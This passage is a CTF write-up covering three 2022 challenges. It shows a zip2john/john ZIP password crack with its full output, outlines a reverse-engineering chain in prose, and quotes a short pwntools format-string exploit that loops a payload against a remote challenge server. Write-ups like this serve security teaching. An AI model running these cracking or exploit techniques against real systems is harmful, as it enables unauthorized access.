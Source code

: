 ```
└──╼ $zip2john flag.zip > zip_hash.txt
ver 2.0 efh 5455 efh 7875 flag.zip/flag.txt PKZIP Encr: 2b chk, TS_chk, cmplen=330, decmplen=3403, crc=F6E944AC


└──╼ $john zip_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
...
0g 0:00:03:44  3/3 0g/s 9571Kp/s 9571Kc/s 9571KC/s kyolchou..kyolbagg
3c0w45           (flag.zip/flag.txt)
1g 0:00:04:42 DONE 3/3 (2022-08-28 18:21) 0.003535g/s 9810Kp/s 9810Kc/s 9810KC/s 3c0gbi..3c0igd
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

Now the flag is a [QR code](Assets/flag.txt)

scan it with anything you want (zbartools dont work with txt files so you can flameshot it first or whatever) anyway...ggwp

### Breakme

- points = 300
- status = unsolved

I think I could do this one but I ran out of time...

Anyway...get the archive, explore the files and notice the [main.py module](2022/main.py)

It's RE so understand what it does and...well...reverse it

[those guys](https://github.com/TargetRoot/CTF) wrote a nice [solution](2022/solve_breakme.py) that gives you a base32 encoded string (just like the hint said)

It's a pastebin link leading to a 3D obj file (made in blender)

Find any [3D viewer](https://3dviewer.net/) to open it and get some morse in 3D (incredible)

Back to the [kitchen](https://gchq.github.io/) to get that flag


### Invisible

- points = 300
- status = unsolved

Get the [Binary](2022/invisible)...It's pwn so you know what to do already

It's all about `ELF x64 - Format string bug`

I might update this later with more details but as I didnt solve it I will simply reffer to [those guys](https://github.com/TargetRoot/CTF)'s solution using `pwntools` on remote
```
from pwn import *
from time import sleep
context.arch = 'amd64'
for i in range(500):
	conn=remote('51.38.37.81',1234)
	payload=fmtstr_payload(8,{0x000000000040405c:200})
	conn.sendline(payload)
	print(conn.recvall())
	conn.close()
	sleep(0.1)
```